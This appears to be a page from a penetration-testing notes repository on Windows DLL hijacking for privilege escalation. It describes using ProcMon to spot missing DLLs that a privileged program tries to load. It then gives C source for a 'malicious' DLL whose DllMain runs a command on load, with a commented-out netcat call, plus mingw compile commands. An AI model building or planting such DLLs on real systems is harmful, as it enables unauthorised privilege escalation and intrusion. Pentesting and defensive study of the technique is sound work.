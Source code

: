 # DLL Hijacking
If a privileged application includes a missing DLL, we can replace that DLL and execute arbitrary privileged commands.
## ProcMon
[ProcMon](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/tree/master/Privilege%20Escalation/windows-binaries) is a Microsoft SysInternals stand-alone binary which can be used to search for such a scenario. When ran look for any `QueryOpen` operations that result in `NAME_NOT_FOUND` Then simply replace the DLL with a malicious DLL which spawns a shell.
## Malicious DLL
Below is the C code which we canm use to create a "malicious" Windows DLL file.
```
#include <windows.h>
int fireLazor()
{
 //WinExec("nc", 0);
 WinExec("cmd \"d:some path\\program.bat\" \"d:\\other path\\file name.ext\"",SW_SHOW_MINIMIZED);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 fireLazor();
 return 0;
}
```
Compil;e the code as follows,
```
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```
This will create a file called `main.dll`.
